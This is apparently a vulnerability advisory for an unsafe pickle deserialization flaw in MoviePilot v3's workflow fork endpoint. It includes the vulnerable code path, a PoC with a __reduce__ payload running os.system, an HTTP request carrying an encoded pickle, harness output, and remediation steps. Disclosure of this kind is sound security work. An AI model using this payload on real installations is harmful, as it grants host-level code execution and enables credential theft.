

# MoviePilot v3 Workflow Fork API Pickle Deserialization RCE

### Summary

MoviePilot v3 (branch `v3`, https://github.com/jxxghp/MoviePilot) was confirmed vulnerable to unsafe deserialization in the workflow executor. The `WorkflowExecutor.restore_context()` routine base64-decodes the persisted `workflow.context["content"]` column and passes it directly to `pickle.loads()` without any HMAC signature check, restricted `Unpickler`, or type allowlist. The same column is writable by any authenticated user holding the `permissions.manage` flag through `POST /api/v1/workflow/fork`, whose only content validation is a JSON syntax parse.

The vulnerability was dynamically verified with an isolated Python harness: a crafted `__reduce__` pickle payload submitted via the fork endpoint executed an arbitrary OS command during `pickle.loads()` (exit code 0, marker `[VULN] RCE CONFIRMED! Arbitrary command executed during pickle.loads`, command output file content `pwned_by_pickle`).

This is CWE-502: Deserialization of Untrusted Data.

**Affected versions:** MoviePilot v3.1.1 (tested: `main` @ `df45df8`; the workflow context-persistence sink is present across all v3.x releases).

### Details

**Root cause.** For backward compatibility with a legacy Base64-pickle storage format, `WorkflowExecutor.restore_context()` (`app/chain/workflow.py:354-373`) decodes `self.workflow.context["content"]` with `base64.b64decode` and feeds it to `pickle.loads()` at line 365. There is no signature verification, no `RestrictedUnpickler`, and no allowed-class filtering.

**Trust boundary failure.** `restore_context()` implicitly trusts the database column as internal/legacy data, but the same column is attacker-writable through the API. The write path (`POST /api/v1/workflow/fork`) performs only authentication/authorization (manage permission) and a JSON syntax check — no content filtering, no signing, no schema validation. The application's permission model is therefore bypassed end-to-end: a user who should only manage business data obtains OS-level code execution at the sink.

**Source-to-sink path:**

1. **Source — `POST /api/v1/workflow/fork`** (`app/api/endpoints/workflow.py:212-222`). The request body binds `_SchemaWorkflowShare`, whose `context: Optional[str]` field (`app/schemas/workflow.py:190`) is fully attacker-controlled.
2. **Application service — `WorkflowDefinitionCommand.fork()`** (`app/application/workflow.py:657-702`). Lines 670-677 run `json.loads` (syntax only); line 687 writes the parsed value into `workflow_values["context"]`; line 693 calls `repository.stage_create(...)`.
3. **Persistence — `stage_create`** (`app/db/oper/workflow.py:190-195`) constructs `Workflow(**payload)`; the `context` key maps directly to the ORM JSON column (`app/db/models/workflow.py:43`) and is flushed.
4. **Trigger — `POST /api/v1/workflow/{id}/run`** (`app/api/endpoints/workflow.py:240-254`). With the default `from_begin=true` the context is reset; the attacker must pass `from_begin=false`, or use the event-triggered execution path which hard-codes `from_begin=False` (`app/chain/workflow.py:1277`). `WorkflowChain.process()` does not check `workflow.state`, so a forked, paused workflow can still be run manually.
5. **Sink — `pickle.loads()`** (`app/chain/workflow.py:365`) executes the attacker's `__reduce__` callable with MoviePilot service-process privileges.

Core vulnerable code path:

```python
# app/chain/workflow.py:354-373 (restore_context)
def restore_context(self):
 context = self.workflow.context or {}
 content = context.get("content")
 if content:
 # no HMAC, no restricted unpickler, no allowlist
 self._context = pickle.loads(base64.b64decode(content)) # line 365
```

### PoC

Verified with an isolated harness replicating the exact sink:

1. Build a malicious pickle: `class Exploit: def __reduce__(self): return (os.system, ('id > /tmp/rce_proof.txt',))`, then `base64.b64encode(pickle.dumps(Exploit()))`.
2. Submit it as a manage-permission user:

```http
POST /api/v1/workflow/fork
Authorization: Bearer <token>
Content-Type: application/json

{"name": "pwned", "context": "{\"content\": \"gASVRAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCllY2hvIHB3bmV...\"}"}
```

3. Run the workflow with `{"from_begin": false}` (or let the event trigger fire).
4. `WorkflowExecutor.restore_context()` executes `pickle.loads()`; the payload runs during deserialization.

Harness output (exit code 0):

```
=== Fuzzing Harness: MoviePilot workflow restore_context pickle deserialization ===
=== Target: app/chain/workflow.py:354 restore_context() ===
[ATTACKER] context field submitted to /api/v1/workflow/fork
[VULN] RCE CONFIRMED! Arbitrary command executed during pickle.loads
[VULN] Command output file /tmp/rce_proof.txt content: "pwned_by_pickle"
[VULN] pickle.loads() at app/chain/workflow.py:365 executed attacker-controlled object
```

**Real-environment reproduction** (the product itself built from source/official image and run for this test):


The deserialization sink was re-verified against the **real repository code** (unmodified clone of `jxxghp/MoviePilot` @ main, commit `df45df8`), driving the production `WorkflowExecutor.restore_context()` method (`app/chain/workflow.py:354-373`) with a workflow snapshot whose persisted `context.content` carried the base64 pickle payload:

```
$ python rce_test.py
[attacker] crafted pickle payload (base64, 224 chars) -> workflow.context.content
[victim] WorkflowExecutor.restore_context() — unpickling attacker-controlled context...
[victim] __init__ crashed on self.context == <int> — context was replaced by
 os.system's return value during pickle.loads: pickle EXECUTED.

--- canary file /tmp/realverify/evidence/MoviePilot/pwned.txt ---
uid=501(0xgenesi) gid=20(staff) groups=20(staff),12(everyone),61(localaccounts),...
RCE-as-0xgenesi
```

`os.system()` executed inside the real `restore_context()` during workflow startup; the "crash" shown above is itself proof — `self.context` was replaced by `os.system`'s integer return value because `pickle.loads()` instantiated the attacker object. Command execution as the MoviePilot service user is confirmed end-to-end.



## Impact

An authenticated manage-level user (a role MoviePilot's multi-user model grants to family members) can persist an arbitrary command-execution primitive in the database: every subsequent execution of the poisoned workflow re-triggers the payload, acting as a persistent backdoor. The compromised process can exfiltrate media-server API keys, downloader credentials and the user database, and pivot into the internal network (PT sites, downloaders, media servers). While exploitation requires management-level authentication rather than anonymous access, the deserialization itself runs unsandboxed, so a stolen or low-trust manage account escalates directly to host-level code execution.

### Remediation

1. Remove the pickle compatibility branch: make `restore_context()` use only `ActionContext.model_validate()` (Pydantic JSON validation, already present at `app/chain/workflow.py:367`) and migrate legacy Base64-Pickle records with a one-time migration script instead of runtime `pickle.loads`.
2. If legacy compatibility must be retained, only unpickle data that is internally written and HMAC-signed (e.g., keyed with `RESOURCE_SECRET_KEY`); reject every context that arrived through the API.
3. Harden the fork/create endpoints: whitelist allowed `context` fields, reject the `content` key or force re-serialization into a safe dict, and align the fork path with the share-upload path that already strips `context` via `pop('context')` (`app/application/server/share.py:77`).
4. Short-term mitigation: audit the `workflow` table for rows whose `context` contains a `content` key to detect possible prior exploitation, and rotate credentials if any suspicious payload is found.
